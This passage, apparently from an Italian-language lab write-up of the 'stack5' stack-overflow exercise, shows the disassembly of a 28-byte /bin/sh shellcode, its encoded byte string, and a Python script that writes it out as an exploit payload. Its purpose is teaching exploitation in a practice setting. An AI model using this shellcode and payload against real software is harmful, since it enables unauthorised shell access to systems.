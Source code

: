 \begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ objdump --disassemble shellcode.o

shellcode.o:    file format elf32-i386

Disassembly of section .text:

00000000 <shellcode>:
   0: 31 c0             xor   %eax,%eax
   2: 50                push  %eax
   3: 68 2f 2f 73 68    push  $0x68732f2f
   8: 68 2f 62 69 6e    push  $0x6e69622f
   d: 89 e3             mov   %esp,%ebx
   f: 89 c1             mov   %eax,%ecx
  11: 89 c2             mov   %eax,%edx
  13: b0 0b             mov   $0xb,%al
  15: cd 80             int   $0x80
  17: 31 c0             xor   %eax,%eax
  19: 40                inc   %eax
  1a: cd 80             int   $0x80
\end{lstlisting}
\end{mdframed}

Le istruzioni sono poi codificate sotto forma di stringa:
\begin{center}
    \texttt{" \textbackslash x31 \textbackslash xc0 \textbackslash x50 \textbackslash x68 \textbackslash x2f \textbackslash x2f \textbackslash x73"}
    
\texttt{" \textbackslash x68 \textbackslash x68 \textbackslash x2f \textbackslash x62 \textbackslash x69 \textbackslash x6e \textbackslash x89"}

\texttt{" \textbackslash xe3 \textbackslash x89 \textbackslash xc1 \textbackslash x89 \textbackslash xc2 \textbackslash xb0 \textbackslash x0b"}

\texttt{" \textbackslash xcd \textbackslash x80 \textbackslash x31 \textbackslash xc0 \textbackslash x40 \textbackslash xcd \textbackslash x80"}
\end{center}
La lunghezza finale è 28 byte, quindi ok. L'output da passare a \texttt{stack5} può essere generato con python: lo script \texttt{stack5-payload.py} stampa in output l'input da passare a \texttt{stack5}. Salviamo su un file l'output dello script:
\begin{center}
    \texttt{python stack5-payload.py > /tmp/payload}
\end{center}

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{stack5-payload.py}
\begin{verbatim}
#!/usr/bin/python

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73" + \
            "\x68\x68\x2f\x62\x69\x6e\x89" + \
            "\xe3\x89\xc1\x89\xc2\xb0\x0b" + \
            "\xcd\x80\x31\xc0\x40\xcd\x80";
print shellcode
\end{verbatim}
\end{mdframed}
Per poter generare un input malizioso efficace, bisogna calcolare ed impostare correttamente alcuni parametri da aggiungere allo script. Per ottenere tali parametri è necessario ricostruire il layout dello stack. Eseguiamo allora \texttt{stack5} con GDB, passandogli come input il file \texttt{/tmp/payload}. Esaminiamo il programma e disassembliamo il main:

